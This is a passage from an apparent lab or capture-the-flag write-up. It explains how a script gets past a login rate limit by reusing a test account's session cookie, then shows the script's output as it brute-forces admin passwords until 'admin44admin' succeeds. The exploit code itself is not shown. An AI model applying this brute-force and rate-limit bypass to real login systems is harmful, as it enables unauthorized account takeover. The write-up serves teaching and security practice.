 The script allows us to bypass the restriction by doing a `POST` request to our test account to prevent the limit-rate, we also use `requests.Session()` to use the cookie from our test session in order to avoid the limit-rate, once we run the script, we get this:

```python
python3 exploit.py
[+] Trying admin00adminâ€¦ âœ—
[+] Trying admin01adminâ€¦ âœ—
[+] Trying admin02adminâ€¦ âœ—
[+] Trying admin03adminâ€¦ âœ—
[+] Trying admin04adminâ€¦ âœ—
[+] Trying admin05adminâ€¦ âœ—
[+] Trying admin06adminâ€¦ âœ—
[+] Trying admin07adminâ€¦ âœ—
[+] Trying admin08adminâ€¦ âœ—
[+] Trying admin09adminâ€¦ âœ—
[+] Trying admin10adminâ€¦ âœ—
[+] Trying admin11adminâ€¦ âœ—
[+] Trying admin12adminâ€¦ âœ—
[+] Trying admin13adminâ€¦ âœ—
[+] Trying admin14adminâ€¦ âœ—
[+] Trying admin15adminâ€¦ âœ—
[+] Trying admin16adminâ€¦ âœ—
[+] Trying admin17adminâ€¦ âœ—
[+] Trying admin18adminâ€¦ âœ—
[+] Trying admin19adminâ€¦ âœ—
[+] Trying admin20adminâ€¦ âœ—
[+] Trying admin21adminâ€¦ âœ—
[+] Trying admin22adminâ€¦ âœ—
[+] Trying admin23adminâ€¦ âœ—
[+] Trying admin24adminâ€¦ âœ—
[+] Trying admin25adminâ€¦ âœ—
[+] Trying admin26adminâ€¦ âœ—
[+] Trying admin27adminâ€¦ âœ—
[+] Trying admin28adminâ€¦ âœ—
[+] Trying admin29adminâ€¦ âœ—
[+] Trying admin30adminâ€¦ âœ—
[+] Trying admin31adminâ€¦ âœ—
[+] Trying admin32adminâ€¦ âœ—
[+] Trying admin33adminâ€¦ âœ—
[+] Trying admin34adminâ€¦ âœ—
[+] Trying admin35adminâ€¦ âœ—
[+] Trying admin36adminâ€¦ âœ—
[+] Trying admin37adminâ€¦ âœ—
[+] Trying admin38adminâ€¦ âœ—
[+] Trying admin39adminâ€¦ âœ—
[+] Trying admin40adminâ€¦ âœ—
[+] Trying admin41adminâ€¦ âœ—
[+] Trying admin42adminâ€¦ âœ—
[+] Trying admin43adminâ€¦ âœ—
[+] Trying admin44adminâ€¦ âœ…  SUCCESS!
    â†’ admin password is: admin44admin
```
